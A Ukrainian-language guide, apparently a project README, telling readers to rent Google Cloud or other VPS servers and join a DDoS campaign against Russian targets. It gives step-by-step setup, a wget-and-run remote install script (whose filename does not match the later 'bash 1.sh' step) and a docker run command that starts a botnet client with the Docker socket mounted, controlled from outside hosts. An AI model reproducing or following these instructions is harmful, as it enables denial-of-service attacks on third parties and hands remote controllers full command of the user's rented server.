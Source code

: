 Прочитайте це будь-ласка. Коли ви ддосите за допомогою свого комп'ютера то весь український інтернет трафік йде на рашку. Проблема в тому що зараз в Україні і так мережі навантажені, але ми можемо трохи знизити це навантаження за допомогою орендованих серверів з Европи або США. Коротка інструкція для тих хто зрозуміє: орендуємо VPS, VDS на    Google Cloud, AWS, Digital Ocean etc. Ставимо докер запускаємо bombardier и фігачимо по рашці.

Детальна інструкція описана нижче:

Переходимо на cloud.google.com та обираємо вгорі "Get started for free"

![image](https://user-images.githubusercontent.com/37846731/156425245-25d55b4a-1789-4334-9792-bbd8d1673af4.png)

2. Нас перекидує на наступну сторінку, яку заповнюємо ось так, (можливо ви не в гугл акаунті ще, тому вас попросять ще авторизуватись)

![image](https://user-images.githubusercontent.com/37846731/156425332-3d196223-b539-4aa4-806e-882a90f99c0a.png)

Можливо треба буде відкрити в новому вікні сині гіперссилки праворуч від галок, якщо це попросить гугл
3.Далі заповнюємо як показано на рисунку нижче, заповнюємо дані з карти (з вас спише та потім поверне 1 доллар, за поточним курсом десь 32грн). Жмемо “START MY FREE TRIAL” синя кнопка внизу.

![image](https://user-images.githubusercontent.com/37846731/156425431-f246d34c-7b34-42a7-a82d-db8f3799dce8.png)

4. Нас перекине на сторінку нижче. Далі обираємо зліва внизу пункт "Compute Engine" (виділено червоним)

![image](https://user-images.githubusercontent.com/37846731/156425492-6ad97091-1aec-4cc0-8d16-1208ade63f5d.png)

5. Обираємо пункт "Create Instance"

![image](https://user-images.githubusercontent.com/37846731/156425580-dbe0ec4d-5b65-4444-86e2-ad843cc7ec73.png)

6. Створюємо віділений сервер, заповнюючи форму нижче як показано на рисунку

![image](https://user-images.githubusercontent.com/37846731/156425649-fda6781e-10fd-4b42-9c9f-93ce553f73da.png)


В Розділі Boot Disk  нажимаємо кнопку "Change" та у вікні нижче обираємо операційну систему Ubuntu 20.04:

![image](https://user-images.githubusercontent.com/37846731/156425703-63e670f4-a4af-49df-b119-c291c579e42d.png)


Фінально повинно виглядати форма так:

![image](https://user-images.githubusercontent.com/37846731/156425751-975834a4-7a6b-4e2c-ab18-f10ca01ab1ee.png)

7. Після заповнення форми жмемо на синю кнопку "Create".  

Бачимо ось таку сторінку. Вітаю ви створили відилений сервер. Тепер потрібно зайти на нього та вже через цей сервер починати саме ДДоС атаку.  Далі обираємо стрілочку вниз біля SSH (обведено червоним), і обираємо 1ий пункт “Open in browser window”, 

![image](https://user-images.githubusercontent.com/37846731/156425792-2acf5474-5a34-40f6-a005-00720a21bb38.png)


8. Браузер відкриє нове вікно, або дасть повідомлення що гугл хоче відкрити нове вікно - погоджуйтесь. Далі нове вікно буде виглядати ось так: Це командна строка вашого сервера, через це вікно будемо посилати команди на сервер:

![image](https://user-images.githubusercontent.com/37846731/156425863-b79ff354-4581-45d3-aeca-fbb17815e5a4.png)


9. Спочатку встановимо софт для ДДоСа, копіювати і вставляти по одному блоку між рядками (Ctrl+V в консолі працює):

 ```
 wget https://gist.githubusercontent.com/antl31/83229c0eaaa1d259a569cfb57ab75230/raw/b4e01a106fbe534a7bfa4930a66cf933c6366c5c/install_docker.sh 
 ```


```
bash 1.sh
```

Далі чекаємо поки все встановиться. Клацаємо enter, бачимо чисте вікно.


10. Запускаємо клієнт ботнету використовуючи команду:

```
docker run -d --restart=always -v /var/run/docker.sock:/var/run/docker.sock --label clientNode=true --restart=always -e CLUSTER_NAME=YOUR_CLUSTER_NAME freefly19/4321-client:latest http://d1.track-debts.com http://d2.track-debts.com
```

Замініть YOUR_CLUSTER_NAME на ваш нік/щось інще. За допомогою цього імені в подальшому ви зможете моніторити свої ресурси. 
